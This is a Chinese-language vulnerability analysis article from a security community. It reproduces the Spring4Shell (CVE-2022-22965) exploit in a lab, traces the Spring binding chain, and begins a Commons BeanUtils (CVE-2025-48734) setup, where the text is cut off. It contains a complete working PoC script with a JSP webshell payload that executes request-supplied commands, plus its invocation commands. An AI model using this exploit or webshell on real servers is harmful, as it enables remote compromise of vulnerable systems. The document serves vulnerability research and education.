# CVE-2025-48734 与 CVE-2022-22965 漏洞分析：从Spring到Commons BeanUtils的RCE利用-先知社区

> **来源**: https://xz.aliyun.com/news/19136  
> **文章ID**: 19136

---

# CVE-2025-48734 和 CVE-2022-22965 漏洞分析学习

前言：比较有意思的漏洞点，然后感觉这两个漏洞非常相似，下面就一起分析学习一下。

## CVE-2022-22965 漏洞分析

### 版本限制

Spring 框架或衍生的 SpringBoot 等框架，版本小于 v5.3.18 或 v5.2.20  
Tomcat 小于 9.0.62

### 环境搭建

先新建一个 spring 项目，JDK 版本需要大于 1.9，然后修改 pom.xml 如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.example</groupId>
    <artifactId>spring4</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <packaging>war</packaging>
    <name>spring4</name>
    <description>spring4</description>
    <properties>
        <java.version>11</java.version>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
        <spring-boot.version>2.6.3</spring-boot.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-tomcat</artifactId>
            <scope>provided</scope>
        </dependency>
    </dependencies>
    <dependencyManagement>
        <dependencies>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-dependencies</artifactId>
                <version>${spring-boot.version}</version>
                <type>pom</type>
                <scope>import</scope>
            </dependency>
        </dependencies>
    </dependencyManagement>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.8.1</version>
                <configuration>
                    <source>11</source>
                    <target>11</target>
                    <encoding>UTF-8</encoding>
                </configuration>
            </plugin>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <version>${spring-boot.version}</version>
                <configuration>
                    <mainClass>org.example.spring4.Spring4Application</mainClass>
                    <skip>true</skip>
                </configuration>
                <executions>
                    <execution>
                        <id>repackage</id>
                        <goals>
                            <goal>repackage</goal>
                        </goals>
                    </execution>
                </executions>
            </plugin>
        </plugins>
    </build>

</project>

```

spring-boot 版本为 2.6.3，对应的 spring 依赖为 5.3.15，因为要部署到 tomcat 上，所以添加了 `spring-boot-starter-tomcat`，

添加一个测试 controller

```
package test.controller;  
  
import org.springframework.stereotype.Controller;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.bind.annotation.ResponseBody;  
  
@Controller  
public class UserController {  
    @RequestMapping("/addUser")  
    public @ResponseBody String addUser(User user) {  
        return "OK";  
    }  
}
```

把项目打包为 war 包，然后部署到 tocmat 上，



启动访问即可。

### 漏洞复现

下载对应 poc：  
<https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py>

```
#coding:utf-8  
  
import requests  
import argparse  
from urllib.parse import urljoin  
  
def Exploit(url):  
    headers = {"suffix":"%>//",  
                "c1":"Runtime",  
                "c2":"< %",  
                "DNT":"1",  
                "Content-Type":"application/x-www-form-urlencoded"  
  
    }  
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=D:/JavaSec/apache-tomcat-8.0.50/webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="  
    try:  
  
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)  
        shellurl = urljoin(url, 'tomcatwar.jsp')  
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)  
        if shellgo.status_code == 200:  
            print(f"Vulnerable，shell ip:{shellurl}?pwd=j&cmd=whoami")  
    except Exception as e:  
        print(e)  
        pass   
  
def main():  
    parser = argparse.ArgumentParser(description='Spring-Core Rce.')  
    parser.add_argument('--file',help='url file',required=False)  
    parser.add_argument('--url',help='target url',required=False)  
    args = parser.parse_args()  
    if args.url:  
        Exploit(args.url)  
    if args.file:  
        with open (args.file) as f:  
            for i in f.readlines():  
                i = i.strip()  
                Exploit(i)  
  
if __name__ == '__main__':  
    main()
```

运行

```
python poc.py --url http://localhost:8088/addUser
```

然后访问 `http://localhost:8088/tomcatwar.jsp?pwd=j&cmd=calc` 进行命令执行



### 漏洞分析

把 poc 进行 URL 解码，

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i

class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp

class.module.classLoader.resources.context.parent.pipeline.first.directory=D:/JavaSec/apache-tomcat-8.0.50/webapps/ROOT

class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar

class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

这里需要了解 spring mvc 多层嵌套参数绑定，主要实现类和方法是 `WebDataBinder.doBind`，在该方法下上断点，运行 poc



然后一直进行跟进来到 getPropertyAccessorForPropertyPath 方法，该方法主要通过递归调用自身，实现对 `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 的递归解析，设置整个调用链。



简单看看逻辑，先会判断我们的参数是否存在点，然后获取点的索引进行参数截取，



然后是 `AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`，该行主要实现每层嵌套参数的获取，当前 nestedProperty 是 class，跟进这个方法一直到 `getValue()`，在这里会调用参数的 getter 方法



readMethod 就是 java.lang.Object.getclass() 方法，因为我们的 User 类是继承于这个 Object 类的所以可以调用到这个方法，



然后返回为 java.lang.class，并且包装为了 BeanWrapperImpl 实列，作为下一轮迭代循环的 this，



接着继续看到 nestedProperty 又变为了 module，



还是和上面一样，反射调用 getmodule 方法，然后返回 java.lang.Module 的 BeanWrapperImpl 包装实列



后面同理，一直调用 getter 方法返回对象然后封装为 BeanWrapperImpl 进行迭代，直到最后一个参数没有点后，返回最后个 getter 方法返回的对象封装成的 BeanWrapperImpl 实列



然后一直调用到 setValue 方法，反射调用 setPattern 方法进行赋值

  


调用链

```
User.getClass()  
java.lang.Class.getModule()  
java.lang.Module.getClassLoader()  
org.apache.catalina.loader.ParallelWebappClassLoader.getResources()  
org.apache.catalina.webresources.StandardRoot.getContext()  
org.apache.catalina.core.StandardContext.getParent()  
org.apache.catalina.core.StandardHost.getPipeline()  
org.apache.catalina.core.StandardPipeline.getFirst()  
org.apache.catalina.valves.AccessLogValve.setPattern()
```

另外结果参数也是同样的效果，然后为什么要给这些属性赋值，

Tomcat 的 Valve 用于处理请求和响应，通过组合了多个 Valve 的 Pipeline，来实现按次序对请求和响应进行一系列的处理。其中 AccessLogValve 用来记录访问日志 access\_log。Tomcat 的 server.xml 中默认配置了 AccessLogValve，所有部署在 Tomcat 中的 Web 应用均会执行该 Valve，



下面列出配置中出现的几个重要属性：

· directory：access\_log 文件输出目录。  
· prefix：access\_log 文件名前缀。  
· pattern：access\_log 文件内容格式。  
· suffix：access\_log 文件名后缀。  
· fileDateFormat：access\_log 文件名日期后缀，默认为.yyyy-MM-dd。

所以我们的 poc 其实就是修改这些属性把日志文件修改为 webshell 文件进行利用，然后看一下 pattern 的参数值

```
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```

在 AccessLogValve 输出的日志中可以通过形如%{param}i 等形式直接引用 HTTP 请求和响应中的内容，所以 poc 中还添加了请求头



### 漏洞修复

**Spring 5.3.18 补丁：**

这里其实还有一部分知识，我们前面看到最后反射调用的 get/set 方法其实是在这里进行了缓存，先会遍历 beanclass 的所有属性然后去获得其 getter 方法进行绑定缓存，这里意思就是如果 beanclass 是 Class.class 那么只能绑定 name 或者 XXXName 的 getter 方法，



## CVE-2025-48734 漏洞分析

### 漏洞描述

Apache Commons 中存在访问控制不当漏洞。1.9.2 版本中新增了一个特殊的 BeanIntrospector 类。该类可用于阻止攻击者使用 Java 枚举对象声明的类属性来访问类加载器。然而，此保护措施默认未启用。PropertyUtilsBean（以及 BeanUtilsBean）现在默认禁止访问声明的类级属性。1.11.0 和 2.0.0-M2 版本解决了以不受控制的方式访问枚举属性时存在的潜在安全问题。如果使用 Commons BeanUtils 的应用程序将属性路径从外部源直接传递给 PropertyUtilsBean 的 getProperty() 方法，攻击者可以通过所有 Java“枚举”对象上可用的“declaredClass”属性访问枚举的类加载器。访问枚举的“declaredClass”属性允许远程攻击者访问 ClassLoader 并执行任意代码。

**版本限制：**

Commons BeanUtils <=1.10.1

### 环境搭建

还是新建个 tomcat 项目，参考 <https://mp.weixin.qq.com/s/Pz1iaKp1ZmrNS4iiTKyaZg> 添加如下代码。感觉这种挺少见的，需要 populate 参数对象是个 enum 类，

```
import org.apache.commons.beanutils.BeanUtils;

import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;
import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.*;

@WebServlet("/demo")
public class servlet extends HttpServlet {

    private String message;

    @Override
    public void init() throws ServletException {
        message = "demo";
    }
    //初始化对message进行赋值
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp)
            throws ServletException, IOException {

        // 获取请求参数
